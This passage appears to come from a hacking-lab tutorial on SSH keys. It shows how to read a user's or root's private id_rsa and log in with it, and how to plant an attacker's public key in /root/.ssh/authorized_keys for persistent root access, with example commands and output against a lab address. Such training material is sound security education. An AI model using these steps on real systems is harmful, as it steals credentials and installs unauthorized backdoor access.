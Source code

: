 

### SSH Keys

If we have read access over the `.ssh` directory for a specific user, we may read their private ssh keys found in `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`, and use it to log in to the server. If we can read the `/root/.ssh/` directory and can read the `id_rsa` file, we can copy it to our machine and use the `-i` flag to log in with it:

```shell-session
TomasFerreira@htb[/htb]$ vim id_rsa
TomasFerreira@htb[/htb]$ chmod 600 id_rsa
TomasFerreira@htb[/htb]$ ssh root@10.10.10.10 -i id_rsa

root@10.10.10.10#
```

If we find ourselves with write access to a users`/.ssh/` directory, we can place our public key in the user's ssh directory at `/home/user/.ssh/authorized_keys`. This technique is usually used to gain ssh access after gaining a shell as that user. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user. We must first create a new key with `ssh-keygen` and the `-f` flag to specify the output file:

```shell-session
TomasFerreira@htb[/htb]$ ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```



This will give us two files: `key` (which we will use with `ssh -i`) and `key.pub`, which we will copy to the remote machine. Let us copy `key.pub`, then on the remote machine, we will add it into `/root/.ssh/authorized_keys`:

```shell-session
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

```shell-session
TomasFerreira@htb[/htb]$ ssh root@10.10.10.10 -i key

root@remotehost# 
```
